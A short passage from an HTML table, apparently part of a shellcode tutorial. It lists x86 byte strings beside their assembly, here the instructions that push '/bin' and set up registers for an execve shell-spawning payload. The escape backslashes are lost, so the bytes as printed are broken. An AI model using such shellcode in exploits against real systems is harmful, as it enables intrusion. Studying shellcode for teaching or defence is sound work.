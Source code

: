    <td width="114">*/</td>

  </tr>

  <tr>

   <td width="167">“x68″”/bin”</td>

   <td width="24">/*</td>

   <td width="135">Line 4: pushl</td>

   <td width="183">$0x6e69622f</td>

   <td width="114">*/</td>

  </tr>

  <tr>

   <td width="167">“x89xe3”</td>

   <td width="24">/*</td>

   <td width="135">Line 5: movl</td>

   <td width="183">%esp,%ebx</td>

   <td width="114">*/</td>

  </tr>

  <tr>

   <td width="167">“x50”</td>

   <td width="24">/*</td>

   <td width="135">Line 6: pushl</td>

   <td width="183">%eax</td>

   <td width="114">*/</td>

  </tr>

  <tr>

   <td width="167">“x53”</td>

   <td width="24">/*</td>

   <td width="135">Line 7: pushl</td>

   <td width="183">%ebx</td>

   <td width="114">*/</td>

  </tr>

  <tr>

   <td width="167">“x89xe1”</td>

   <td width="24">/*</td>
